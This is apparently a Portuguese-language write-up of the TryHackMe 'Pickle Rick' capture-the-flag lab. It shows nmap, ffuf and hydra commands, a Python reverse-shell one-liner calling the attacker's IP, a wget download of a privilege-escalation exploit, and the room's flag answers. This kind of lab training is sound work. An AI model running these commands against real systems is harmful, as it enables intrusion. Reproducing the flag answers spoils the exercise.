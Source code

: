 # Sala picklerick do TryHackMe

Essa sala Pickle Rick do TryHackMe tem como objetivo fazer com que o pentester pense fora da caixa e que consiga bypassar algumas situações 


# Description

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP

You can also access the web app using the following link: https://LAB_WEB_URL.p.thmlabs.com (this will update when the machine has fully started)

# Requisitos para invasão
- [x] BurpSuite



# Tela inicial do Lab

Aqui encontramos o problema, que o rick perdeu sua senha. Então provavelmente teremos que acessar uma tela de login.
![vuln2.jpg](img/telainicial.jpeg)

Vamos observar o código fonte da página 

#### HTML code
```html

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>

```

Análisando o códifo fonte, encontramos o usuário do Rick que é o R1ckRul3s

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```



Nesse periodo em paralelo, realizei um scan para buscar por novas informações do alvo

```
nmap 10.10.195.34
```

![vuln2.jpg](img/scan.jpeg)

E também tentei me conectar via SSH
```
ssh -v R1ckRul3s@10.10.195.34
```


![vuln2.jpg](img/ssh_falha.jpeg)


E uma enumeração de diretorios através do ffuf


```

ffuf -c -w /usr/share/dirb/wordlists/common.txt -u http://10.10.195.34/FUZZ -e '.php','.html','.csv','.xls','.xlsx'

```
Encontramos uma página chamada login.php e um robots.txt
![vuln2.jpg](img/ffuf.png)


Entrando aqui na tela de login, deixei um bruteforce rodando  em paraleo

Tela de login
![vuln2.jpg](img/login.png)


Hydra
![vuln2.jpg](img/hydra.jpeg)
```
hydra -l R1ckRul3s -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt   10.10.195.34 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password."
```


Depois de esperar um bom tempo de bruteforce, decidir entrar no robots.txt e esse conteúdo do robots.txt era  meio estranho

```
Wubbalubbadubdub
```

Tentando logar com o usuário
R1ckRul3s e senha Wubbalubbadubdub. Consigo logar no sistema.
![vuln2.jpg](img/logado.png)

Tentando um ls -la no command panel achamos o primeiro ingrediente

![vuln2.jpg](img/primeiro_ingrediente.png)

Respota aqui 
![vuln2.jpg](img/resposta.png)

```
mr. meeseek hair
```

Precisamos pegar uma shell melhorada para avançar para os próximos ingredientes, então executei o comando


![vuln2.jpg](img/pegar_shell.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.28",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Shell
![vuln2.jpg](img/shell.png)




Trocando de diretorios encontramos o segundo ingrediente
![vuln2.jpg](img/segundo_ingrediente.png)
```
1 jerry tear
```

Subindo shell para escalar privilegio
![vuln2.jpg](img/subindo_exploit_privilege_escalation.png)

Computador do atacante
```
python -m http.server
```

Computador do alvo
```
wget http://10.9.0.28:8000/CVE-202104034.PY
```

E agora, só rodar o exploit e escalar privilegio


![vuln2.jpg](img/root.png)
Com acesso root e procurando o terceiro ingrediente achamos na pasta do root

![vuln2.jpg](img/terceiro.png)

```
fleeb juice
```

Máquina completa :
